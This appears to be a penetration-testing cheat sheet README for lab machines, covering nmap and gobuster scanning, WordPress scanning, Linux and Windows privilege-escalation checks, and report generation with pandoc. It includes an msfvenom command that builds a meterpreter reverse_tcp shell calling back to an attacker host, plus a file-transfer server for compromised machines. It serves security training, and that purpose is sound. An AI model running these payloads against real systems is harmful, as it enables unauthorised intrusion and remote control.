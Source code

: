 # Scanning

#### Nmap
The following is a list of .nse scrips and cheat sheets for nmap
```
$ nmap -sC -sV -oA nmap/OUTPUT 10.10.10.125
```
The following syntax is used for vulnerability scans within nmap
```
$ nmap --script vuln -oA nmap/OUTPUT 10.10.10.125
$ nmap --script http-enum --script-args http-enum.fingerprintfile=./myfingerprints.txt -p80 <target>  
```
#### Gobuster
Directory busting with gobuster
```
$ sudo gobuster dir -u http://10.10.10.68 -w ~/red-team/wordlists/directory-list-2.3-medium.txt
```
#### WordPress
The following tool will scan a wordpress site for known vulnerabilities and configuration items:
```
$ sudo wpscan --url https://example.com --disable-tls-checks
```
#### Manual Tricks
If 443 is open check the certificate for alternative Virtual hosts that the cert may work on.
If you find that the certificate is good for multiple subdomains/virtual hosts add them to your host file with the following command.
```
$ vi /etc/hosts

127.0.0.1         localhost
127.0.0.2         kali
10.10.10.123      www.example.com
```
# Privilege Escalation

### Windows
First lets check system info with the folloing commands.
```
C:\Users\user\Desktop> systeminfo
```
msf exploit checker:
```
msf exploit > use post/multi/recon/local_exploit_suggester
msf exploit > set SESSION 1
msf exploit > run
```
### Linux
- [GTFOBins](https://gtfobins.github.io/) is a fantastic resource for priviledge escolation within Linux.
First steps to go from low-privilege user to root on a linux box.
```
joanna@openadmin:~$ sudo -l                     
Matching Defaults entries for joanna on openadmin:                              
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\
  :/bin\:/snap/bin 
  
User joanna may run the following commands on openadmin:                         
  (ALL) NOPASSWD: /bin/nano /opt/priv                                 
  joanna@openadmin:~$ 
```
Look at what the user can sudo and try to escalation from their. 
After testing what the user can do, look to see what is running as root.
```
joanna@openadmin:~$ find / -perm -u=s -type f 2>/dev/null   
/usr/lib/openssh/ssh-keysign     
/usr/lib/eject/dmcrypt-get-device 
/usr/lib/snapd/snap-confine       
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper    
/usr/lib/policykit-1/polkit-agent-helper-1    
/usr/bin/newgrp                              
/usr/bin/pkexec         
/usr/bin/newgidmap      
/usr/bin/sudo   
/usr/bin/passwd  
/usr/bin/newuidmap
/usr/bin/chsh      
/usr/bin/traceroute6.iputils 
/usr/bin/chfn           
/usr/bin/gpasswd      
/usr/bin/at  
/bin/ping      
/bin/umount     
/bin/su        
/bin/mount     
/bin/fusermount
joanna@openadmin:~$
```

We can try and get a root shell if a service is running as root, i.e. apache. Start a python http server to transfer files to the 
compromised machine. Note that this command will host files in your current directory, so make sure you copy all files before running
the python SimpleHTTPServer.
```
$ sudo python -m SimpleHTTPServer 8888
```
# Meterpreter
Use the following to created a meterpreter shell for reverse_tcp for Windows
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 -f aspx -o exploit.aspx

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
```
# Pen Test Report
#### Requirements

- [Pandoc](https://pandoc.org/installing.html)
```
sudo apt-get install pandoc
```
- LaTeX (eg. [TeX Live](http://mirror.ctan.org/systems/texlive/tlnet/install-tl-unx.tar.gz)) in order to get `pdflatex` or `xelatex`
```
wget http://mirror.ctan.org/systems/texlive/tlnet/install-tl-unx.tar.gz
tar -xzf install-tl-unx.tar.gz
cd /your/unpacked/directory
perl install-tl  # install-tl-windows on Windows
[... messages omitted ...]
Enter command: i
[... when done, see below for post-install ...]
```
Post-install: setting PATH variable
```
PATH=/usr/local/texlive/2019/bin/x86_64-linux:$PATH
```
- [Eisvogel Pandoc LaTeX PDF Template](https://github.com/Wandmalfarbe/pandoc-latex-template#installation)
```
wget https://raw.githubusercontent.com/Wandmalfarbe/pandoc-latex-template/master/eisvogel.tex
mkdir -p ~/.pandoc/templates
mv eisvogel.tex ~/.pandoc/templates/default.latex
```
```
pandoc PENTEST_REPORT.md \
-o OSCP-OS-XXXXX-Lab-Report.pdf \
--from markdown+yaml_metadata_block+raw_html \
--template eisvogel \
--table-of-contents \
--toc-depth 6 \
--number-sections \
--top-level-division=chapter \
--highlight-style breezedark
```
